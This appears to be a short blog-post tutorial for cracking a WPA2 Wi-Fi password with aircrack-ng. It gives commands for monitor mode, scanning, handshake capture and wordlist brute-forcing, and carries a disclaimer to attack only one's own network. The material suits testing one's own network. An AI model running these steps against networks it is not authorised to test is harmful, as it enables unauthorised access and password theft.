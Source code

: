 ```yaml
---
layout: post
title: "Crack WPA2 WLAN Password with aircrack-ng"
fav: 1
---
```


> **Disclaimer**: This might be illegal in some countries. Perform this attack on your own network only!

1. Put WLAN device into monitoring mode:
   ```bash
   airmon-ng start wlan0
   ```
2. Scan for access points:
   ```bash
   airodump-ng wlan0mon
   ```
3. Capture WPA2 handshake (use `<$BSSID>` and `<$CHANNEL>` from the previous scan):
   ```bash
   airodump-ng -c <$CHANNEL> --bssid <$BSSID> -w <$CAPTURE_FILE> wlan0mon
   ```
4. Wait until airodump says '*WPA handshake: ...*' in the upper right of the terminal, then press `Ctrl+c` to stop scanning.
5. Bruteforce the WPA2 handshake with aircrack-ng and a wordlist:
   ```bash
   aircrack-ng <$CAPTURE_FILE>-01.cap  -w <$WORDLIST_FILE>
   ```

---
